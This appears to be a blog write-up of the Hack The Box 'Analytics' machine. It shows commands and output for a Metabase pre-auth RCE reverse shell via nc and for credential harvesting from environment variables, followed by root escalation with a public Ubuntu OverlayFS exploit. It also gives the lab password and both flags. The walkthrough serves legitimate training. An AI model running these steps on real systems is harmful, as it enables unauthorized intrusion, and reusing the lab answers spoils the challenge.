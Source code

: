 ```yaml
---
layout: post
title: Analytics HTB - Writeup
categories: [HTB]
tags: [htb,web,htb easy]
img_path: /images/htb/easy/analytics/
image:
  path: icon.png
---
```


Another machine today! This one had me quite stumped on the user flag...

**Machine created by:** [7u9y](https://app.hackthebox.com/users/260996) & [TheCyberGeek](https://app.hackthebox.com/users/114053)

## Recon

Starting with a nmap scan of the IP, we see 3 open ports.

```
$ sudo nmap 10.10.11.233 --top-ports 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-03 02:53 AEDT
Nmap scan report for 10.10.11.233
Host is up (0.017s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Lets edit our `/etc/hosts` and add a new entry (If we set it to `analytics.htb` it redirects us to `analytical.htb` so we will use that).

```
10.10.11.233 analytical.htb
```

Visiting [analytical.htb](http://analytical.htb:80) we see a common company landing page.

![Home Page](home.png)

After clicking `Login` were shown a new subdomain: `data.analytical.htb`.

Lets add that to the `/etc/hosts` file.

```
10.10.11.233 data.analytical.htb,analytical.htb
```

Visiting `data.analytical.htb` we see a Metabase login page.

![Metabase Login](metabase.png)

Looking for Metabase CVE's online I come across a [Pre-Auth RCE PoC](https://github.com/securezeron/CVE-2023-38646) which has a reverse shell script.

## Exploitation & Initial Access

Let's setup a listener locally with `nc`.

```
$ nc -lvnp 4444
```

And lets run the exploit:

```
$ python3 CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb --lport 4444 --lhost 10.10.***.***
[DEBUG] Original rhost: http://data.analytical.htb
[DEBUG] Preprocessed rhost: http://data.analytical.htb
[DEBUG] Input Arguments - rhost: http://data.analytical.htb, lhost: 10.10.***.***, lport: 4444
[DEBUG] Fetching setup token from http://data.analytical.htb/api/session/properties...
[DEBUG] Setup Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[DEBUG] Version: v0.46.6
...
[DEBUG] POST to http://data.analytical.htb/api/setup/validate failed with status code: 400
```

and on our listener we see a new shell!

```
Connection from 10.10.11.233:34544
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
218a8fec6c49:/$ whoami
whoami
metabase
```

## User Flag

Now looking through the `/app` directory I read `run_metabase.sh` and see its reading creds from environment variables.

```sh
# usage: file_env VAR [DEFAULT]
#    ie: file_env 'XYZ_DB_PASSWORD' 'example'
# (will allow for "$XYZ_DB_PASSWORD_FILE" to fill in the value of
#  "$XYZ_DB_PASSWORD" from a file, especially for Docker's secrets feature)
# taken from https://github.com/docker-library/postgres/blob/master/docker-entrypoint.sh
# This is the specific function that takes the env var which has a "_FILE" at the end and transforms that into a normal env var.
file_env() {
    local var="$1"
    local fileVar="${var}_FILE"
    local def="${2:-}"
    if [ "${!var:-}" ] && [ "${!fileVar:-}" ]; then
        echo >&2 "error: both $var and $fileVar are set (but are exclusive)"
        exit 1
    fi
    local val="$def"
    if [ "${!var:-}" ]; then
        val="${!var}"
    elif [ "${!fileVar:-}" ]; then
        val="$(< "${!fileVar}")"
    fi
    export "$var"="$val"
    unset "$fileVar"
}
```

Running `printenv` gives us the following output:

```
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=218a8fec6c49
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/app
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/bin/printenv
OLDPWD=/
```

In there are the following credentials `metalytics:An4lytics_ds20223#`.

Let's use this on SSH:

```
$ ssh metalytics@analytical.htb
metalytics@analytical.htb's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)
...
metalytics@analytics:~$ cat user.txt
43b96c62ca27b47911880bebe17962df
```

And there's the user flag! <mark>43b96c62ca27b47911880bebe17962df</mark>

## Root Flag

I firstly check `sudo -l` for any living-off-the-land opportunities.

```
metalytics@analytics:~$ sudo -l
[sudo] password for metalytics:
Sorry, user metalytics may not run sudo on localhost.
```

Hmm...

Any SUID binaries? (`find / -type f -perm -04000 -ls 2>/dev/null`)

```
      842     40 -rwsr-xr-x   1 root     root        40496 Nov 24  2022 /usr/bin/newgrp
      697     72 -rwsr-xr-x   1 root     root        72072 Nov 24  2022 /usr/bin/gpasswd
     1111     56 -rwsr-xr-x   1 root     root        55672 Feb 21  2022 /usr/bin/su
     1187     36 -rwsr-xr-x   1 root     root        35192 Feb 21  2022 /usr/bin/umount
      573     44 -rwsr-xr-x   1 root     root        44808 Nov 24  2022 /usr/bin/chsh
      681     36 -rwsr-xr-x   1 root     root        35200 Mar 23  2022 /usr/bin/fusermount3
     2484    228 -rwsr-xr-x   1 root     root       232416 Apr  3  2023 /usr/bin/sudo
      876     60 -rwsr-xr-x   1 root     root        59976 Nov 24  2022 /usr/bin/passwd
      830     48 -rwsr-xr-x   1 root     root        47480 Feb 21  2022 /usr/bin/mount
      567     72 -rwsr-xr-x   1 root     root        72712 Nov 24  2022 /usr/bin/chfn
     1409     36 -rwsr-xr--   1 root     messagebus    35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    13994    332 -rwsr-xr-x   1 root     root         338536 Aug 24 13:40 /usr/lib/openssh/ssh-keysign
    13665     20 -rwsr-xr-x   1 root     root          18736 Feb 26  2022 /usr/libexec/polkit-agent-helper-1
```

None on GTFOBins...

Look at other port activity (`netstat -nltp`), nothing of interest exists their either. 

Nothing inside `printenv`, what now?

I looked up for privilege escalation vulnerabilities in the Ubuntu version supplied once we joined SSH (Ubuntu 22.04.3) and found [CVE-2023-2640 + CVE-2023-32629 PoC](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) which gives root!

I cloned the PoC locally and hosted a local python server (`python3 -m http.server`) and downloaded the exploit on the server.

```
metalytics@analytics:/tmp$ chmod +x exploit.sh
metalytics@analytics:/tmp$ ./exploit.sh
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:/tmp# cat /root/root.txt
9db68c8ac70474f468afe8ca2ac44373
```

There's the root flag! <mark>9db68c8ac70474f468afe8ca2ac44373</mark>

Success!

![Success](submitted.png)

## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).